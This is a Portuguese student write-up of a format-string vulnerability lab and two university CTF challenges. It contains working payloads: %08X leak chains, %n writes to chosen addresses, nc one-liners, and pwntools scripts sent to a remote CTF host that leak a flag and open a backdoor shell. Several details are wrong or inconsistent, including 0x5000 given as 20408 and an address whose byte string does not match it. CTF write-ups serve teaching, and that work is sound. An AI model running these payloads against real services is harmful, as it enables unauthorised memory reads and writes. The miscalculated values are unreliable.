



# Format-String Vulnerability Lab

## Environment Setup

Primeiramente, para dar setup simplificar os ataques, foram desligadas algumas proteções do sistema ao dar run ao comando:<br>
`$  sudo sysctl -w kernel.randomize_va_space=0`<br>

De seguida, realizou-se a compilação e instalação do ficheiro `format.c` com:
```bash
$ make
$ make install
```

## Container Setup

Para dar setup ao container foi neceessario correr estes dois comandos:<br>
`$ dcbuild`<br> <br>
`$ dcup`<br>    


## Task1

A maneira usamos para crashar o servidor foi a seguinte:
```bash
$ echo '%s' | nc 10.9.0.5 9090 
```

Isto fez com que o programa fosse procurar a string no endereço da posição superior da stack. Isso fez com que fosse para fora da área da memória do processo e por consequência o servidor crasha. 


Sabemos que crashou pois não imprimiu a mensagem:

(^_^)(^_^)  Returned properly (^_^)(^_^)

## Task2


## Task 2.A

Para cumprir o objetivo de imprimir os primeiros 4 bytes do input, o enunciado recomenda que o input tenha um valor conhecido para rapidamente reconhecê-lo. Decidimos escolher o valor "GHJK", que em hexadecimal é "47484A4B".

A ideia do exercício é darmos como input "GHJK" e estar com "%08X" concatenado a este input várias vezes.

```bash
echo "GHJK%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X" | nc 10.9.0.5 9090
```
O output do servidor foi:

```bash
GHJK112233440000100008049DB5080E5320080E61C0FFFFD4F0FFFFD418080E62D4080E5000FFFFD4B808049F7EFFFFD4F0000000000000006408049F47080E5320000004D7FFFFD5F5FFFFD4F0080E5320080E97200000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000013639F00080E5000080E5000FFFFDAD808049EFFFFFFD4F000000105000005DC080E5320000000000000000000000000FFFFDBA4000000000000000000000000000001054B4A4847
```
O final do output, "4B4A4847" (que é a inversão de "47484A4B") é o endereço da string que escolhemos ("GHJK").

Entre o início, "GHJK" e o fim "4B4A4847" estão 504 caracteres. 
Um endereço tem 8 caracteres, ou seja fazendo a conta, 504/8, obtemos o número de endereços da stack entre o format string e o buffer, que é 63.

Ou seja, para imprimir os primeiros 4 bytes do input é preciso ter uma string com 64 "%x", em que o último mostra os 4 bytes iniciais do input e os outros mostram endereços que se encontram no meio.


## Task 2.B  

O endereço da "secret message" é 0x080b4008. Para tornar-mos o valor em string temos de por "\x08\x0b\x40\x08". De seguida fazemos como na task anterior, colocamos 63 "%08x" e pomos  no fim "%s" para lermos o endereço e obtermos a "secret message".

Acrescentamos estas duas linhas de código ao ficheiro format.c: 
```bash
    char task2b[296] = "echo \x08\x40\x0b\x08%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X %s | nc 10.9.0.5 9090";
    system(task2b);
```
Depois de executar o executável obtivemos o seguinte:



Ou seja a mensagem secreta é: "A secret message"

## Task3

## Task 3.A

Nesta task é pedido que mudemos o valor da variável target.


| The target variable's address: 0x080e5068
| The target variable's value (before): 0x11223344


Como o address é dado, podemos usar o código da Task2.B com o endereço novo para mudar o valor da varíavel. Também tivemos de alterar o "%s" para "%n", pois o "%n" escreve o número de caracteres escritos/impressos na variável até esse ponto.

```bash
    char task3a[296] = "echo \x68\x50\x0e\x08%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X %n | nc 10.9.0.5 9090";
    system(task3a);
```    

O output obtido foi:


## Task 3.B

Nesta task é pedido que o valor novo seje especificamente 0x5000. Para isso foi preciso fazer algumas alterações no código anterior.
O "%n" escreve o número total de caracteres escritos até esse ponto, por isso o input até "%n" teria de ter 20408 caracteres (0x5000 em decimal). Contudo para evitar escrever algo tão grande usamos %.19980X. Este valor é obtido da seguinte forma, primeiro subtraímos 4 ao valor 20408, pois esse é o número de caracteres que o endereço ocupa. De seguida, subtraímos a esse valor 63 * 8, pois esse é o número de endereços que existe até ao fim, sendo que cada um tem 8 caracteres.
 (20408 - 4 - 63 * 8 = 19980).

```bash
    char task3b[] = "echo \x68\x50\x0e\x08%.19980X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%n | nc 10.9.0.5 9090";
    system(task3b);
```  

O output obtido foi:


O novo valor do target éx00005000 (que é igual ao valor pedido, pois os zeros à esquerda não importam).


## CTF Semana 7 ( Format-String Vulnerability )

## Desafio 1

## Descrição

Foi-nos fornecida uma pasta, cujo conteúdo é idêntico ao presente num servidor Linux que se encontra na porta 4004, que contém um ficheiro flag.txt com a flag que queremos aceder (A flag no zip é dummy, a válida só se encontra no servidor), um programa C e um executável program. No entanto, na pasta que nos foi fornecida encontra-se um programa Python, que acede ao servidor e executa o programa C, e é nele que será configurado o exploit para acedermos ao ficheiro da flag no servidor. 

## Análise e resolução do problema

Inicialmente, decidimos verificar que proteções o programa(o executável) tinha usando o comando checksec. Assim, pudemos verificar que existiam defesas no endereço de retorno através de um canário. Também reparamos que não havia randomness nos endereços da stack. Além disso, notamos que a arquitetura era little-endian, ou seja vamos ter que inverter os endereços que usarmos.


Ao analisar o main.c, reparamos que o input é guardado num buffer de 32 bits através do scanf e duas linhas abaixo é impresso por um printf. Estas características mais não haver endereços que foram randomizados, significa que é possível usar "format-string attack" para manipular o seu funcionamento.

Quando a função load_flag é chamada, ela lê a flag do diretório para outro buffer. Ao obtermos o endereço da função, pode-se ter acesso ao valor armazenado no buffer.

Para encontrar o endereço da função, utilizamos o gdb.



Agora que sabemos o endereço (0x08049256, \x60\xC0\x04\x08 em formato string), podemos usar o código python dado para obter a flag, fazendo algumas alterações.

```bash
from pwn import *
  
p = remote("ctf-fsi.fe.up.pt", 4004)
p.recvuntil(b"got:")
p.sendline(b"\x60\xC0\x04\x08%s")
p.interactive()
```


## Desafio 2

## Descrição

Este Desafio é semelhante ao anterior, foi-nos fornecida uma pasta, cujo conteúdo é idêntico ao presente num servidor Linux que se encontra na porta 4005, que contém um ficheiro flag.txt com a flag que queremos aceder (A flag no zip é dummy, a válida só se encontra no servidor), um programa C e um executável program.

## Análise e resolução do problema

Para este desafio poderemos usar uma lógica parecida à anterior já que continua a não haver randomness dos endereços, ou seja mais uma vez podemos usar um format-string attack.


Com uma rápida análise ao main.c, reparamos que só poderemos prosseguir se o valor de key for 0xbeef, que em decimal é 48879.

Recorrendo mais uma vez ao gdb para descobrir o endereço:



O valor em formato string de 0x0804b324 é \x24\xb3\x04\x08.

Para preparar o input e escrever 48879 caracteres, podemos usar uma lógica semelhante ao do desafio 1, mas teremos de usar o %n para escrever o número elevado de caracteres. É requerido algum cuidado com os caracteres já impressos, para ter o número exato necessário. Usamos 4 caracteres da key + 4 antes da key ou seja, 48879-8 = 48871 antes do %n.

Fazendo algumas alterações do exploit em python usado anteriormente, obtivemos:

```bash
from pwn import *
p = remote("ctf-fsi.fe.up.pt", 4005)
p.recvuntil(b"here...")
p.sendline(b"0000\x24\xb3\x04\x08%.48871x%n")
p.interactive()
```
Depois de correr o código, ganhamos acesso à backdoor. A seguir a isso basta fazer cat flag.txt para obter a flag.


